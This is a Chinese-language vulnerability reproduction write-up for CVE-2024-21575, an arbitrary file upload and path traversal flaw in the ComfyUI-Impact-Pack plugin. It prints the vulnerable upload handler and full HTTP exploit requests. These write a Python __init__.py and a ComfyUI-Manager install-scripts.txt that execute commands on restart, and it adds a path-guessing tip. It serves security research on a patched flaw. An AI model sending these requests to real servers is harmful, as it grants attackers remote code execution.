

# 记一次Comfy插件RCE复现（CVE-2024-21575 ）-先知社区

> **来源**: https://xz.aliyun.com/news/18431  
> **文章ID**: 18431

---

记录一次Comfy的插件RCE复现记录

# 漏洞介绍

来自阿里云漏洞库的描述：

<https://avd.aliyun.com/detail?id=AVD-2024-21575>

可得知，问题插件是 `ComfyUI-Impact-Pack`

解决办法是： "将组件 ComfyUI-Impact-Pack 升级至 7.6.2 及以上版本"

通过阅读漏洞披露公告，我们可初步了解到，这应是一个任意文件上传导致的RCE。

# 漏洞分析

首先我们锁定相关的文件 `impact_server.py` 和漏洞函数：

```
@PromptServer.instance.routes.post("/upload/temp")
async def upload_image(request):
    upload_dir = folder_paths.get_temp_directory()

    if not os.path.exists(upload_dir):
        os.makedirs(upload_dir)
    
    post = await request.post()
    image = post.get("image")

    if image and image.file:
        filename = image.filename
        if not filename:
            return web.Response(status=400)

        split = os.path.splitext(filename)
        i = 1
        while os.path.exists(os.path.join(upload_dir, filename)):
            filename = f"{split[0]} ({i}){split[1]}"
            i += 1

        filepath = os.path.join(upload_dir, filename)

        with open(filepath, "wb") as f:
            f.write(image.file.read())
        
        return web.json_response({"name": filename})
    else:
        return web.Response(status=400)


```

> 这里提一个小优化，可在关键处把控制台的输出标记颜色，便于查看：

```
# add to impact_server.py:30 
print(f"\033[31m[INFO] ComfyUI-Impact-Pack: Uploading image to {upload_dir}\033[0m")
print(f"\033[31m[INFO] ComfyUI-Impact-Pack: Uploading image: {filename}\033[0m")
print(f"\033[31m[INFO] Uploading filepath: {filepath}\033[0m")


```

经审计，我们可看出这里存在`filename`可控，使得我们能做到目录穿越+任意文件上传，并且要注意，这里会对同名的文件进行重命名，导致我们不能覆盖文件写。

那么梳理下我们可用的条件：

1. 文件类型不限制
2. 重名文件处理。如果上传的文件名已存在，服务器会自动重命名（如 `example (1).png`）。
3. 不可建立自定义文件夹

接下来的问题变成了：**如何通过这单个文件写达到RCE？**

# 漏洞利用

我们直接发包，先利用确认下任意文件上传+目录穿越：

```
POST /upload/temp HTTP/1.1
Host: 127.0.0.1:8188
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:8188/
Comfy-User: 
Origin: http://127.0.0.1:8188
Connection: close
Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1743062412; remember-me=YWRtaW46MTc1MDE0Nzg4NDEwNzpiMzRiYThmZjBkNThkMGI3YWM1OGIwYTJmOWM0NjI3ZA
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 221

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="image"; filename="../../../../../../../../../../../tmp/example.png"
Content-Type: image/png

1
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

通过此包，我们是可以确认到任意文件上传的存在的，进一步，我们需要解决上方提到的问题：

首先，可能直接想到的思路是想去复写Manager 的安全策略、计划任务等配置文件来rce，但要注意从代码可看到无法进行文件覆盖，故这个思路行不通；

但这里存在这样的一个思路，通过观察服务器的输出，在加载插件的时候可发现存在着这样的一句报错：

`Cannot import /Users/xxx/comfy/ComfyUI/custom_nodes/git module for custom nodes: [Errno 2] No such file or directory: '/Users/xxx/comfy/ComfyUI/custom_nodes/git/__init__.py'`

那我们不妨想到可写到某个包的`__init__.py`，重启后默认会加载插件的`init`脚本。正好默认包里自带的有git这个空文件夹，妙极，也正好对应了漏洞描述中的：`<font style="color:rgb(52, 58, 64);">在某些情况下可能会导致远程代码执行(RCE)。</font>` ，形成了闭环。

> 提一嘴如何获取路径，可通过不存在的路径错误回显不断爆破猜测获取正确路径

那好，这里我们继续构造，往此目录写文件：`../custom_nodes/git/__init__.py`

```
POST /upload/temp HTTP/1.1
Host: 127.0.0.1:8188
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:8188/
Comfy-User: 
Origin: http://127.0.0.1:8188
Connection: close
Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1743062412; remember-me=YWRtaW46MTc1MDE0Nzg4NDEwNzpiMzRiYThmZjBkNThkMGI3YWM1OGIwYTJmOWM0NjI3ZA
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 253

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="image"; filename="../custom_nodes/git/__init__.py"
Content-Type: image/png

import os
os.system("echo RCE by hacker")
------WebKitFormBoundary7MA4YWxkTrZu0gW-- 
```

可确认 RCE 利用成功。



不过我们需要思考，若是没有这样的空文件夹，或者找不到这样的文件夹，那么我们该**如何稳定利用这个任意文件写来RCE？**

顺着这个思路，我们继续找一些在插件启动时能执行代码的地方，让我们关注下 user 文件夹下的文件夹ComfyUI-Manager， 发现一个文件夹 `startup-scripts` 是空的，不禁让我们引起遐想，是否可通过查找这个文件夹的用法来实现RCE？

经过审计，发现几处利用点，这下通过此利用链可比`custom_nodes`文件夹更稳定

```
# 入口
script_list_path = os.path.join(folder_paths.user_directory, "default", "ComfyUI-Manager", "startup-scripts", "install-scripts.txt")

script_executed = False
# 执行函数
def execute_startup_script():
    global script_executed
    print("
#######################################################################")
    print("[ComfyUI-Manager] Starting dependency installation/(de)activation for the extension
")

    custom_nodelist_cache = None

    def get_custom_node_paths():
        nonlocal custom_nodelist_cache
        if custom_nodelist_cache is None:
            custom_nodelist_cache = set()
            for base in folder_paths.get_folder_paths('custom_nodes'):
                for x in os.listdir(base):
                    fullpath = os.path.join(base, x)
                    if os.path.isdir(fullpath):
                        custom_nodelist_cache.add(fullpath)

        return custom_nodelist_cache

    def execute_lazy_delete(path):
        # Validate to prevent arbitrary paths from being deleted
        if path not in get_custom_node_paths():
            logging.error(f"## ComfyUI-Manager: The scheduled '{path}' is not a custom node path, so the deletion has been canceled.")
            return

        if not os.path.exists(path):
            logging.info(f"## ComfyUI-Manager: SKIP-DELETE => '{path}' (already deleted)")
            return

        try:
            shutil.rmtree(path)
            logging.info(f"## ComfyUI-Manager: DELETE => '{path}'")
        except Exception as e:
            logging.error(f"## ComfyUI-Manager: Failed to delete '{path}' ({e})")

    executed = set()
    # Read each line from the file and convert it to a list using eval
    with open(script_list_path, 'r', encoding="UTF-8", errors="ignore") as file:
        for line in file:
            if line in executed:
                continue

            executed.add(line)

            try:
                script = ast.literal_eval(line)

                if script[1].startswith('#') and script[1] != '#FORCE':
                    if script[1] == "#LAZY-INSTALL-SCRIPT":
                        execute_lazy_install_script(script[0], script[2])

                    elif script[1] == "#LAZY-CNR-SWITCH-SCRIPT":
                        execute_lazy_cnr_switch(script[0], script[2], script[3], script[4], script[5], script[6])
                        execute_lazy_install_script(script[3], script[7])

                    elif script[1] == "#LAZY-DELETE-NODEPACK":
                        execute_lazy_delete(script[2])

                elif os.path.exists(script[0]):
                    if script[1] == "#FORCE":
                        del script[1]
                    else:
                        if 'pip' in script[1:] and 'install' in script[1:] and is_installed(script[-1]):
                            continue

                    print(f"
## ComfyUI-Manager: EXECUTE => {script[1:]}")
                    print(f"
## Execute management script for '{script[0]}'")

                    new_env = os.environ.copy()
                    if 'COMFYUI_FOLDERS_BASE_PATH' not in new_env:
                        new_env["COMFYUI_FOLDERS_BASE_PATH"] = comfy_path
                    exit_code = process_wrap(script[1:], script[0], env=new_env)

                    if exit_code != 0:
                        print(f"management script failed: {script[0]}")
                else:
                    print(f"
## ComfyUI-Manager: CANCELED => {script[1:]}")

            except Exception as e:
                print(f"[ERROR] Failed to execute management script: {line} / {e}")

    # Remove the script_list_path file
    if os.path.exists(script_list_path):
        script_executed = True
        os.remove(script_list_path)
        
    print("
[ComfyUI-Manager] Startup script completed.")
    print("#######################################################################
")


# Check if script_list_path exists
if os.path.exists(script_list_path):
    execute_startup_script()

```

上述代码的逻辑大致是: 找到 `startup-scripts` 下的文件 `install-scripts.txt` , 根据 `install-scripts.txt` 文件中的指令，安装依赖、删除节点包或执行命令。

那进一步我们构造好`install-scripts.txt`的内容即可了

通过api写入，往 `../user/default/ComfyUI-Manager/startup-scripts/install-scripts.txt`写如下内容：

```
["/bin", "#FORCE", "echo","RCEByHacker2"]
```

```
POST /upload/temp HTTP/1.1
Host: 127.0.0.1:8188
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:8188/
Comfy-User: 
Origin: http://127.0.0.1:8188
Connection: close
Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1743062412; remember-me=YWRtaW46MTc1MDE0Nzg4NDEwNzpiMzRiYThmZjBkNThkMGI3YWM1OGIwYTJmOWM0NjI3ZA
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 669

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="image"; filename="../user/default/ComfyUI-Manager/startup-scripts/install-scripts.txt"
Content-Type: image/png

["/bin", "#FORCE", "echo","RCEByHacker2"]
------WebKitFormBoundary7MA4YWxkTrZu0gW-- 
```

行文至此，已经实现了**稳定 RCE**


